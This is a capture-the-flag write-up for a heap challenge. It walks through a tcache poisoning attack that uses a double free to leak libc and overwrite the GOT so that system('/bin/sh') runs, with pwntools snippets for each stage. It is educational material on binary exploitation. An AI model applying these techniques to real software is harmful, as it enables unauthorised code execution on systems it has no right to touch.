 # cache
### slopey | 2/13/2022

TL;DR: tcache poisoning into GOT overwrite

Credits to r4kapig for the original solution.

Full exploit is [here](solve.py).

## Background

We are given a binary with the following menu:

```
MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user
```

After doing some reverse engineering with Ghidra, I conclude the following:
1. malloc(0x10); the first 8 bytes is a pointer to the function `admin_info`, and the second 8 bytes is a pointer to `get_flag`.
2. malloc(0x10); allocates a 16 byte buffer for the name of user
3. calls the function at the first 8 bytes of the admin struct
4. writes to the buffer allocated by 2
5. prints the student name
6. calls free on the admin struct
7. calls free on the name buffer

Another important piece of information is that this version of LIBC does not have checks for double free. Meaning, if we call commands 1, 6, 6 (or equivalently, 2, 7, 7) we do not crash. Also, tcache is enabled.

## The Game Plan
### Stage 1: Tcache Poisoning

We use the tcache poisoning method as outlined [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c) in how2heap in order to obtain an arbitrary pointer to an address. We use tcache poisoning to return a pointer to the GOT entry for `free`. This allows us to set up a GOT overwrite. Here is the code: 

```python
malloc_user(b"a")
free_user()
free_user()
edit_user(p64(exe.got["free"]))
malloc_admin()
malloc_user(b"")
```
As you can see, by triggering the double free vulnerability, we use the use after free vulnerability to edit the freed chunk to return an address on the GOT table.

### Stage 2: LIBC leak
Since user is now actually a pointer to the GOT entry for free, we can simply print the user info to obtain a LIBC leak.
```python
r.sendlineafter(b"Choice: ", b"5")
r.recvline()
libc_leak = u64(b"\x20" + r.recv(5) + b"\x00\x00")
log.success(f"LIBC leak at {hex(libc_leak)}")
libc.address = libc_leak - 0x97920
log.info(f"LIBC base at {hex(libc.address)}")
```
The last byte of free is overwritten by the newline character, so I append an arbitrary byte to the data. Then, I use gdb to calculate the offset from LIBC (which is where the 0x97920 comes from). This works because the last byte of the LIBC address will always be the same. 

### Stage 3: GOT Overwrite
Finally, we simply edit the user buffer to the address of system. Then, we can simply free a buffer with name "/bin/sh" to call `system("/bin/sh")`.
```python
edit_user(p64(libc.symbols["free"]) + p64(libc.symbols["puts"]))
free_admin()
edit_user(p64(libc.symbols["system"]) + p64(libc.symbols["puts"]))
malloc_user(b"/bin/sh")
free_user()
```
You may notice that we first free admin. This is because we need a buffer on the tcache bin list that isn't corrupted. Also, we also overwrite the `puts` GOT entry because the newline character would cause a one-byte overwrite of the next GOT entry after `free`, so we need to fully overwrite the puts address with the correct entry.
